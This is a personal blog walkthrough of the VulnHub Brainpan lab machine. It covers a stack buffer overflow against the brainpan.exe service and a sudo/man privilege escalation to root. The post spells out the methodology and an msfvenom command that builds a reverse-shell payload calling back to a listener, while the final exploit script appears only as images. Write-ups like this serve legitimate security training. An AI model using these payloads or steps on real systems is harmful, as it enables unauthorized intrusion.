 ```yaml
---
layout: post
title: Brainpan Walkthrough
published: true
---
```

I've had [Brainpan](https://www.vulnhub.com/entry/brainpan-1,51/) downloaded for awhile and for some reason I haven't ran it, so having a couple of hours last night I decided to see what it was all about. Unbeknownst to me, it was exactly what I was needing...  



 
      ****Spoiler Alert****          ****Spoiler Alert****



I had been wanting to practice buffer overflows for my upcoming OSCP test, and have been working on getting Windows machine setup just for this running [vulnserver](https://github.com/stephenbradshaw/vulnserver) or something similar. As you will shortly see, this machine has that and a bit more.   

****Initial Enum****

![Brainpan NmapOutput1]({{ site.url }}/images/Brainpan/nmap1.JPG)  
![Brainpan NmapOutput2]({{ site.url }}/images/Brainpan/nmap2.JPG) 

We have an unknown service on TCP/9999 and the Python SimpleHTTPServer module running on TCP/10000. Let's see what's happening on the web service:  

![Brainpan Base_Page]({{ site.url }}/images/Brainpan/base_page_10000.JPG)  

Err, ok. A little on the nose here huh? The source shows that this is only an infographic image being hosted.  
Let's hit TCP/9999 with NetCat and see what that's all about:  

![Brainpan access_9999]({{ site.url }}/images/Brainpan/access_9999.JPG)  

Hmm, not much here either. We need more info. Let's go back to the web service and enumerate further using Nikto.  

![Brainpan Nikto]({{ site.url }}/images/Brainpan/nikto.JPG)  

Cool, we have an extra directory that we can test out ("/bin/"). We'll check that out:  

![Brainpan EXE]({{ site.url }}/images/Brainpan/EXE.JPG) 

Since we're being given the brainpan executable here, let's see if we can find the password for the service.

![Brainpan pass]({{ site.url }}/images/Brainpan/brainscan-exe_pass.JPG) 

I'm not a very good coder.....but I'll bet that's the password. 

![Brainpan granted]({{ site.url }}/images/Brainpan/brainpan_access_granted.JPG) 

Awesome. We've cracked the app and are granted access to.....um....well. Yeah nothing. No menu, shell, or extra ports were opened by using the password (must still be in development). So since it's still a service running on the remote server, why not run it locally and see if we can crash it?  

****Buffer Overflow****

One of the best resources for learning about stack-based buffer overflows is [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood). I won't go over all the steps or explain all the scrpt options here, but much of my scripts used is from that short course, just a bit modified (highly recommend going through). Moving on...

We can run brainpan.exe using Wine (Windows Emulator) and then use a simple Python script to send an increasing number of "A's" into the password field to attempt to trigger a crash. That will tell us whether or not the application is susceptible to a buffer overflow attack.



![Brainpan BOF_Trigger]({{ site.url }}/images/Brainpan/bof_trigger.JPG) 

Bingo! We're able to crash the application, almost immediately at 900 bytes.  
Once we have the crash byte count, we can restart the app, and attach our debugger ([Immunity](https://www.immunityinc.com/products/debugger/)) to the process for further analysis. 

Next we need to send it a fixed byte count (equal to the amount that will crash it), but of all unique values. This will allow us to analyze the EIP register in Immunity to determine at what point in that byte string we can start to control the flow of the program.  
To generate the unique pattern you can use the "pattern_create" Ruby script that comes with MetaSploit.  
Once we plug the unique value into our script and run it, we can then copy the value of EIP in Immunity.  

![Brainpan EIP_Control]({{ site.url }}/images/Brainpan/immunity_eip_control.JPG)  

Now we can copy out the unique value of the EIP to determine the offset value (where EIP is located exactly within the 900 bytes).  
Again, we can calculate this with the MetaSploit "pattern_offset" Ruby script (which gives us a value of 524 bytes).  
Having these values we can run the following script to ensure we have complete control over EIP:  

![Brainpan EIP_Control2]({{ site.url }}/images/Brainpan/bof_eipcontrol2.JPG)  

Here, we're buffering "A's" up to the length of the buffer, less our offset position which is when we start writing "B's" (4 exactly), we then write 4 x "C's" into the ESP register, and complete the trailing padding with whatever is left with "D's". Running the script against the restarted app shows us the following in Immunity:  

![Brainpan EIP_B]({{ site.url }}/images/Brainpan/immunity_eip_control_b.JPG) 

As you can see, our EIP register has 4 x \x42's (Hex for B's), which means we can control the flow of the program!  

Next is to check for bad characters that the application will not support. This would keep our exploit from running correctly (or at all) when executing. A separate script full of every possible bad character can be fired at the app, then analyzed and counted in Immunity, but that can be tedious. We can also generate a list of bad characters, copy that file to a directory that Immunity can access and run the [Mona module](https://github.com/corelan/mona) within Immunity to test the app that way (much easier).  An example of looking for bad characters in Immunity using Mona is below:  

![Brainpan Mona]({{ site.url }}/images/Brainpan/badchar_test.JPG) 

We've got a couple of hits! \x00 and \x0a will be excluded when we build our shellcode.  

The next step is to determine from which location we can launch our shellcode from? For this we can run another Mona module command:  
__!mona jmp -r esp -cpb "\x00\x0a"__  

This command searches for modules that avoid the bad characters, however you will need to ensure there are no DEP or ASLR protections. For this I only saw the brainpan.exe process so I ended up opening that process up and manually searching for a "JMP ESP" memory location, which I found at 0x311712F3. 

The [MSFVenom](https://www.offensive-security.com/metasploit-unleashed/msfvenom/) tool is used to generate the shellcode we'll use to trigger a reverse shell from the brainpan overflow vulnerability we found.  
Our command will be the following:  
__msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.232.130 LPORT=443 -b "\x00\x0a" EXITFUNC=THREAD -f python__  

This will generate the appropriate shellcode that we can now place into our final exploit script:  

![Brainpan Exploit]({{ site.url }}/images/Brainpan/brainpan_exploit.JPG)  

Note that the script above utilizes the Python struct module for formatting the "JMP ESP" address in the script into Little-endian format (otherwise you would need to do this yourself). 

Now it's time to test it out! We definitely want to test it locally first so we don't inadvertantly crash the service on the remote host. So we'll restart our local brainpan.exe app and fire our script. 

![Brainpan ExploitTest]({{ site.url }}/images/Brainpan/exploit_success_test.JPG)  

Winner-Winner! Ok, now let's try it again, but on the target system:  

![Brainpan ExploitSuccess]({{ site.url }}/images/Brainpan/exploit_success.JPG)  

Woo-hoo! Worked like a charm, but not home free yet. It looks like we only have a limited shell. ಥ_ಥ  

****PrivEsc****

So let's see what privileges puck has (if any):  

![Brainpan Sudo]({{ site.url }}/images/Brainpan/sudo_nopass.JPG)  

Nice, right on the mark. We can run /home/anansi/bin/anansi_util as root (whatever that is). Running it with sudo shows that we have 3 options (network, proclist, and manual). I couldn't figure out how to string together the correct command sequences, until I searched how to [drop to a shell from the man comamnd](http://www.securitynewspaper.com/2018/04/25/proper-use-sudo-linux-privilege-escalation/). 

Easy-peasy from there 

![Brainpan root_priv]({{ site.url }}/images/Brainpan/root_privesc.JPG)  

And......

![Brainpan Flag]({{ site.url }}/images/Brainpan/flag.JPG) 


Like I mentioned I had been needing to brush up on my buffer overlows and this was exactly that, plus a good privesc primer. Nice combo all the way around.
